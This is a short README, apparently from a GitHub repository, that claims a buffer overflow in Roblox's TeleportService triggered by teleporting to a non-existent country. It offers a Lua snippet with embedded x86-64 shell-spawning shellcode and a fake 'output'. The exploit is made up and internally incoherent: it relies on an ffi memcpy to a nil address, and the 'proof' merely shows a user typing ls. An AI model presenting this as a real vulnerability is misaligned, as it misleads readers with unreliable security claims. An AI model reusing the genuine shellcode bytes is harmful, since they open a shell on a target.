 # Roblox-TeleportService-Buffer-Overflow
## Teleporting to a non-existent country to cause a ROBLOX Buffer overflow

I've found that if you try to teleport to a non-existent country, you can cause a buffer overflow.
To reproduce:
1. Join a game on ROBLOX
2. In your exploit, type:
`game:GetService'TeleportService':Teleport'Israel'`
You should get an error that says `Could not teleport to Israel`.
But, if you examine the error, you'll notice that it's much longer than it should be.

You can write shellcode using the 2nd argument of Teleport when teleporting to Israel:

##### Shellcode:
```lua
local shellcode = '\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'

game:GetService'TeleportService':Teleport('Israel', setmetatable({}, {__gc = function() 
	local ffi = require'ffi'
	ffi.C.memcpy(nil, shellcode, #shellcode)
end}))
```
##### Output:
```
$ ls -l
total 40
-rw-rw-r-- 1 luis luis  6228 Oct 25 22:10 lib
-rw-rw-r-- 1 luis luis  4567 Oct 25 20:58 lib.lua
-rw-rw-r-- 1 luis luis   255 Oct 25 22:19 shellcode.lua

$ ./shellcode.lua
$
```
##### As you can see, it executed the ls command. You can use this to do anything!

Found by Mr Freeman#5361, [Deniied0](https://github.com/Deniied0), [Jollycistaken](https://github.com/Jollycistaken), [Zer0-AI](https://github.com/Zer0-AI)
